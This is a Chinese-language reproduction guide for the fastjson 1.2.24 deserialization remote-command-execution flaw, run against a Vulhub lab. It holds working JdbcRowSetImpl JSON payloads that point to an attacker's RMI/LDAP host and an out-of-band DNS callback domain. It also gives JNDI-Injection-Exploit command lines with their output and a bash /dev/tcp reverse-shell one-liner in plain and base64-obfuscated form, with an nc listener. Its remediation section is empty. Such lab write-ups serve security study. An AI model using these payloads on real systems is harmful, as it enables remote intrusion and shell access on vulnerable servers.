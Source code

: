 # fastjson 1.2.24 反序列化导致任意命令执行漏洞

| 说明     | 内容                                         |
| -------- | -------------------------------------------- |
| 漏洞编号 |                                              |
| 漏洞名称 | fastjson 1.2.24 反序列化导致任意命令执行漏洞 |
| 漏洞评级 |                                              |
| 影响范围 |                                              |
| 漏洞描述 |                                              |
| 修复方案 |                                              |



### 1.1、漏洞描述

FastJson是Alibaba的一款开源Json解析库，可用于将Java对象转换为其Json表示形式，也可以用于将
Json字符串转换为等效的Java对象。近几年来FastJson漏洞层出不穷。RCE漏洞的源头：17年FastJson爆出的1.2.24反序列化漏洞。
关于FastJson1.2.24反序列化漏洞，简单来说，就是FastJson通过parseObject/parse将传入的字符串反序
列化为Java对象时由于没有进行合理检查而导致的。

### 1.2、漏洞等级

高危

### 1.3、影响版本

1.2.24

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/fastjson/1.2.24-rce

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8090/`即可看到

![image-20230908103611667](./imgs/image-20230908103611667.png)

发送测试数据：

```json
{"name":"hello", "age":20}
```

![image-20230908105242306](./imgs/image-20230908105242306.png)

#### 2、漏洞检测

使用`BurpSuite`扩展插件[FastjsonScan](https://github.com/Maskhe/FastjsonScan)进行漏洞检测

![image-20230908105754095](./imgs/image-20230908105754095.png)



POC：

```bash
{
    "handsome":{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName":
    "rmi://wvvlunpw9mk6u4suzoi884ibw22sqh.oastify.com/aaa",
    "autoCommit":true
    }
}
```

使用[dnslog](http://dnslog.cn/)测试

![image-20230908131446437](./imgs/image-20230908131446437.png)

![image-20230908131437714](./imgs/image-20230908131437714.png)



#### 3、漏洞验证

利用[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)工具开启`RMI`服务器



在`/tmp`目录下创建`hello`文件

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hello" -A "192.168.80.141"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[ADDRESS] >> 192.168.80.141
[COMMAND] >> touch /tmp/hello
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/52e3fa
ldap://192.168.80.141:1389/52e3fa
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/atawc5
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/gfk0fp
ldap://192.168.80.141:1389/gfk0fp

----------------------------Server Log----------------------------
2023-09-08 01:38:44 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 01:38:44 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 01:38:44 [LDAPSERVER] >> Listening on 0.0.0.0:1389

```

![image-20230908135208881](./imgs/image-20230908135208881.png)

发送POC到FastJson服务器，通过RMI协议远程加载恶意类

```bash
{
    "handsome":{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName": "rmi://192.168.80.141:1099/atawc5",
    "autoCommit":true
    }
}
```



![image-20230908134211826](./imgs/image-20230908134211826.png)

验证：

![image-20230908134440040](./imgs/image-20230908134440040.png)

### 1.5、深度利用



#### 1、GetShell

构造反弹 Shell命令：

![image-20230908134953126](./imgs/image-20230908134953126.png)

```bash
bash -i >& /dev/tcp/192.168.80.141/1234 0>&1


bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
```

监听`1234`端口

```bash
nc -lvp 1234
```

开启RMI服务

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.80.141"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[ADDRESS] >> 192.168.80.141
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/qkgjya
ldap://192.168.80.141:1389/qkgjya
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/n9qirm
ldap://192.168.80.141:1389/n9qirm
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/nmyogr

----------------------------Server Log----------------------------
2023-09-08 01:53:48 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 01:53:48 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 01:53:48 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

![image-20230908135415444](./imgs/image-20230908135415444.png)

POC :

```bash
{
    "handsome":{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName": "ldap://192.168.80.141:1389/qkgjya",
    "autoCommit":true
    }
}
```



![image-20230908135447227](./imgs/image-20230908135447227.png)

获得Shell

![image-20230908135518387](./imgs/image-20230908135518387.png)

### 1.6、修复建议